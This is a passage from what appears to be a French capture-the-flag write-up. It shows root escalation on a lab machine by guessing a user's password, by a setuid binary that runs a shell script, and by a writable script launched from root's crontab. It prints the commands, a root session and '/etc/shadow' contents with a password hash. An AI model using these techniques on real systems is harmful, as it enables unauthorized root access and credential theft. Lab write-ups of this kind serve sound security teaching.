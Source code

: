 Un *sudo -u user1 bash* plus tard on relève la présence de la commande *sudo cat /etc/shadow* dans l'historique de *user1*.  

On exécute cette commande mais le mot de passe de *user1* est demandé... On teste *user1@12345* et BINGO ça passe. On peut passer root de la même façon.  

User3 vers root
---------------

Cet utilisateur dispose d'un binaire setuid 0 dans son dossier personnel. Il semble qu'il effectue un *system()* du script bash *.script.sh* présent dans le même dossier.  

```bash
echo "You Can't Find Me"
bash -i
```

Dès lors il nous suffit de lancer le binaire :  

```plain
 user3  ~  ./shell
You Can't Find Me
Welcome to Linux Lite 4.4 user3

Saturday 06 July 2019, 16:59:03
Memory Usage: 287/985MB (29.14%)
Disk Usage: 5/217GB (3%)
Support - https://www.linuxliteos.com/forums/ (Right click, Open Link)

 root  ~  id
uid=0(root) gid=0(root) groups=0(root),1002(user3)
 root  ~  head /etc/shadow
root:$6$mqjgcFoM$X/qNpZR6gXPAxdgDjFpaD1yPIqUF5l5ZDANRTKyvcHQwSqSxX5lA7n22kjEkQhSP6Uq7cPaYfzPSmgATM9cwD1:18050:0:99999:7:::
daemon:x:17995:0:99999:7:::
bin:x:17995:0:99999:7:::
sys:x:17995:0:99999:7:::
sync:x:17995:0:99999:7:::
games:x:17995:0:99999:7:::
man:x:17995:0:99999:7:::
lp:x:17995:0:99999:7:::
mail:x:17995:0:99999:7:::
news:x:17995:0:99999:7:::
```

User4 vers root
---------------

LinEnum aura relevé cette entrée dans la *crontab* :  

```bash
*/5  *    * * * root    /home/user4/Desktop/autoscript.sh
```

Le contenu de ce fichier est le suivant :  

```bash
touch /home/user4/abc.txt
echo "I will automate the process"
bash -i
```
